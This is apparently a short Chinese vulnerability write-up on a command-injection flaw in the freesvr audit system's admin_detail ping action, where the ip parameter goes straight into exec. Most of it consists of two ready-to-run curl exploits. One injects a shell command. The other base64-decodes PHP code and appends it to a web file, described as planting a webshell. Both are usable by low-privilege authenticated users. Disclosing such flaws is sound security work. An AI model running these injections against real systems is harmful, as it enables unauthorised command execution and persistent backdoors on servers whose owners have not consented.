





在`/opt/freesvr/web/htdocs/freesvr/audit/controller/c_admin_detail.class.php`文件中有如下函数


使用curl进行利用：
`curl -i -k https://192.168.32.129/admin.php?controller=admin_detail&action=ping&ip=192.168.32.128%20-c%203%20;%20touch%20/tmp/1%20%23`

通过get_request从url中获取到ip参数，而后直接拼接到命令行中，随后通过exec函数执行。访问该路径需要身份认证，但经过测试最低权限的运维用户即可利用




也可以在php文件内植入webshell：此处在`/opt/freesvr/web/htdocs/freesvr/audit/include/language_cn.php`内写入`phpinfo();`
```shell
curl -ik https://192.168.32.129/admin.php?controller=admin_detail&action=ping&ip=192.168.32.128%20-c%203%20;%20echo%20Cjw/cGhwCnBocGluZm8oKTsKPz4=%20|%20base64%20-d%20|%20tee%20-a%20/opt/freesvr/web/htdocs/freesvr/audit/include/language_cn.php%20%23

```
 

 


